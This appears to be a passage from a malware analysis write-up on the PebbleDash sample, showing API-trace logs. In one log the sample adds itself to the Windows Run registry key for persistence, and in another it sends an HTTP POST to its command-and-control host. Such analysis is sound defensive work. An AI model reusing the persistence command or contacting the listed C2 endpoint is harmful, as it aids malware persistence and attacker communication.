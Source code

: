 ![Command Line Parsing](/docs/assets/images/PebbleDash/start.jpg)

The sample was therefore run with the '--start' parameter, which triggered its installation :  

```html
[CNT] [64]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <CreateProcessW> in [KERNEL32.DLL] 
[PAR] LPCWSTR               lpApplicationName   : 0x0 (null)
[PAR] LPCWSTR               lpCommandLine       : 0x00000025275BF1E0
[STR]                       -> "reg add hkcu\software\microsoft\windows\currentversion\run /d "\"C:\Users\user\Desktop\pebbledash\pebbledash.exe\"" /t R"
[STR]                          "EG_SZ /v "PAY" /f"
[PAR] LPSECURITY_ATTRIBUTES lpProcessAttributes : 0x0
[PAR] LPSECURITY_ATTRIBUTES lpThreadAttributes  : 0x0
[PAR] BOOL                  bInheritHandles     : 0x0
[PAR] DWORD                 dwCreationFlags     : 0x0 
[PAR] LPVOID                lpEnvironment        : 0x0
[PAR] LPCWSTR               lpCurrentDirectory   : 0x0 (null)
[PAR] LPSTARTUPINFOW        lpStartupInfo        : 0x00000025275BE970
[FLD]                       -> lpDesktop   = 0x0 (null)
[FLD]                       -> lpTitle     = 0x0 (null)
[FLD]                       -> dwFlags     = 0x1 (STARTF_USESHOWWINDOW)
[FLD]                       -> wShowWindow = 0x0
[FLD]                       -> hStdInput   = 0x0
[FLD]                       -> hStdOutput  = 0x0
[FLD]                       -> hStdError   = 0x0
[PAR] LPPROCESS_INFORMATION lpProcessInformation : 0x00000025275BE950
[RET] 0x7ff7f0997314 in [pebbledash.exe]
```

---
## C2 connection

C2 connection is straightforward :  

```html
[CNT] [91]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpConnect> in [winhttp.dll] 
[PAR] HINTERNET     hSession       : 0x277edf80
[PAR] LPCWSTR       pswzServerName : 0x00000025275BD040
[STR]               -> "www.addfriend.kr"
[PAR] INTERNET_PORT nServerPort    : 80
[RET] 0x7ff7f0985d45 in [pebbledash.exe]

[CNT] [92]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
[API] <WinHttpOpenRequest> in [winhttp.dll] 
[PAR] HINTERNET hConnect          : 0x277f0070
[PAR] LPCWSTR   pwszVerb          : 0x00000025275BD022
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x00000025275BD250
[STR]           -> "/board/userfiles/temp/index.html"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x0 
[RET] 0x7ff7f0985e41 in [pebbledash.exe]

[...]

[CNT] [103]
[PTP] [0x968] [0xbb8] [c:\users\user\desktop\pebbledash\pebbledash.exe]
```